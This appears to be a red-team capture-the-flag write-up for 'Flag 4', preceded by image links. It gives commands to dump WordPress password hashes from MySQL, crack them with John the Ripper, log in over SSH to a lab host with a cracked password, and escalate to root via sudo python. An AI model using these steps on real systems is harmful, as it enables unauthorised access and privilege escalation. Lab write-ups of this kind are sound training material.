






# Flag 4 Pictures 

### The Red Team continued to navigate through the MySQL Database and was successful at locating TWO User Password HASH's:

 

Command: select * from wp_users
* Documents TWO user login and their HASHED Passwords

 

### The Red Team used John to crack the Passwords:

* Create a document in NANO and paste the Hashed Passwords in the file
* Use John to crack the Hash
    * john --wordlist=/usr/share/wordlists/rockyou.txt wp_hashes
    

### The Red Team SSH into Steven Account: Created a user shell
  * ssh steven@192.168.1.110
  * Password: pink84 

### The Red Team was able to escalate to root 
  * sudo python -c "import pty;pty.spawn('/bin/bash')"  

   

### Red Team successfully located Flag 4

 

